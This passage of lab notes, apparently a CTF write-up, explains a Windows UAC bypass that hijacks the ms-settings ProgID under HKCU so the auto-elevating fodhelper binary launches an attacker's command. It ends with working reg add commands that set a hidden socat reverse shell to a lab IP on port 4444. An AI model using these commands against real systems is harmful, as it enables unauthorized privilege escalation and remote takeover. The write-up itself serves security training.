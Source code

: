 ![](/assets/img/Pasted image 20230119014027.png)

- In reality, `HKEY_CLASSES_ROOT` is just a merged view of two different paths on the registry:

![](/assets/img/Pasted image 20230119014103.png)

- When checking `HKEY_CLASSES_ROOT`, if there is a user-specific association at `HKEY_CURRENT_USER(HKCU)`, it will take priority.
- If no user-specific association is configured, then the system-wide association at `HKEY_LOCAL_MACHINE(HKLM)` will be used instead.
- This way, each user can choose their preferred apps separately if desired.


- Going back to `fodhelper`, we now see that it's trying to open a file under the `ms-settings` **ProgID**. (`look at the procmon image`)
- By creating an association for that ProgID in the current user's context under HKCU, we will **override** the default system-wide association and, therefore, ***control which command is used to open the file***.
- Since `fodhelper` is an **autoElevate** executable, any subprocess it spawns will inherit a high integrity token, effectively bypassing UAC.


### Putting it all together

- One of our agents(`implants`) has planted a backdoor on the target server for your convenience.
- He managed to create an account within the Administrators group, but UAC is preventing the execution of `ANY` privileged tasks.
- To retrieve the flag, you have to bypass the UAC and get a fully functional shell with high IL.


<u>Connecting to the backdoor using netcat from the AttackBox</u>:

![](/assets/img/Pasted image 20230119223536.png)

	- Notice that we have to connect to the backdoor as bind shell.

![](/assets/img/Pasted image 20230119223625.png)

	- Notice that this shell only has "Medium IL".
	- We want to elevate privileges with UAC bypassing.

- We `set` the required ***registry values*** to associate the `ms-settings` class to a reverse shell.
- For your convenience, a copy of `socat` can be found on `C:\Tools\Socat\`.
- You can use the following commands to set the required registry keys from a standard command line:

```shell-session
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.10.102.75:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f
The operation completed successfully.
```
